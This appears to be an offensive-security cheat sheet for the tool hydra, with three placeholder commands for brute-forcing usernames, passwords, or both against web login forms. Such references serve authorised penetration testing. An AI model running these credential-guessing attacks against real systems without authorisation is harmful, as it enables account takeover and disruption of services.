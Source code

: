 # hydraPLUS

% hydraPLUS

#plateform/linux #target/remote #cat/ATTACK

## Bruteforce username in login form
```
hydra -L <worldlist> -p test <ip> http-post-form "<path>:<request>:<denied_message>"
```

## Bruteforce password in form
```
hydra -l <login> -P <wordlist> <ip> http-post-form "<path>:<request>:<denied_message>"
```

## Bruteforce username and password in login form
```
hydra -L <wordlist_login> -P <wordlist> <ip> http-post-form "<path>:<request>:<denied_message>"
```